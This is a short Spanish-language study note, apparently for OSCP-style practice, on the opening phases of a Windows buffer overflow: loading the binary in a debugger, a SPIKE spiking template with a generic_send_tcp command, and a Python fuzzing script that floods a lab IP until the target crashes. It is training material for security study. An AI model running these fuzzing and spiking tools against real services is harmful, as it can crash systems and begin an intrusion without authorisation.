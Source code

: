 
# Cosas basicas

Cargar el binario vulnerable

1º Cierras todo
2º ejecutas el binario
3º cargas el binario en el debugger
4º inicias el programa

# Spiking

Script de spiking de Bof
[https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/spiking](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/spiking)

Codigo del spiking 
~~~~c
s_readline():
s_string("FUNCION ");
s_string_variable("0");
~~~~
NOTA: Intercambiar Funcion por la el nombre de la funcion

1º Con el codigo configurado enviar este comando para que el binario vulnerable pete
~~~~c
>> generic_send_tcp IPVICTIMA PUERTO func.spk 0 0
~~~~

# Fuzzing

En esta fase vamos a buscar el byte mas cercano donde el binario peta

Script de fuzzing
[https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/fuzzing](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/fuzzing)

Contenido del script
~~~~python
#!/usr/bin/python2.7
import sys, socket
from time import sleep
buffer = "A" * 100
# Si el binario no se crashea aumenta el valor de 100 a 1000-2000-3000

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.10.10.111',3000))
		s.send(('FUNCION /.:/' + buffer))
		#s.send((buffer))
		#s.send((buffer+'\n'))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()
~~~~
NOTA: Parametros a cambiar serian:
	1º IP
	2º Puerto
	3º Funcion
